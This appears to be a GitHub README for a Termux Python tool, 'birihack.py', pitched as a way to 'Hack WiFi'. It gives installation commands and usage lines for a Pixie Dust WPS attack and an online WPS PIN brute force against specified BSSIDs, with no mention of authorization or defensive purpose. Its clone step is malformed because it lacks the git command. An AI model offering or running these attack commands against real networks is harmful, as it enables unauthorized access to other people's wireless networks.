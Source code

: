 <h1 align="center">Hack WIfi Using Termux! (Requires Root)
</h1>
<h1 align="center">THIS TOOL MAKE BY TEAM BOT HACKER [WASIM]</h1>
<p align="center"><img src="https://i.ibb.co/K74g0SC/hulu.jpg"></p>

<h1 align="center">tutorial video👇 </h1>
https://www.facebook.com/share/v/YySXjik5GrfkM6tV/?mibextid=oFDknk
### Installation :

```bash
$ apt update && apt upgrade
$ pkg install -y root-repo
$ pkg install -y git tsu python wpa-supplicant pixiewps iw
$ https://github.com/WASIM-360/Wifi_Hack
$ cd Wifi_Hack
$ chmod +x birihack.py
$ sudo python birihack.py --help
```

#### Example : `sudo python birihack.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python birihack.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python birihack.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python birihack.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
<h3 align="left">Connect with me:</h3>
<p align="left">
<a href="https://www.facebook.com/profile.php?id=100086012142332&mibextid=ZbWKwL" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/facebook.svg" alt="wasim360" height="30" width="40" /></a>
<a href="https://www.youtube.com/c/@wasim-360" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/youtube.svg" alt="wasim-360" height="30" width="40" /></a>
</p>
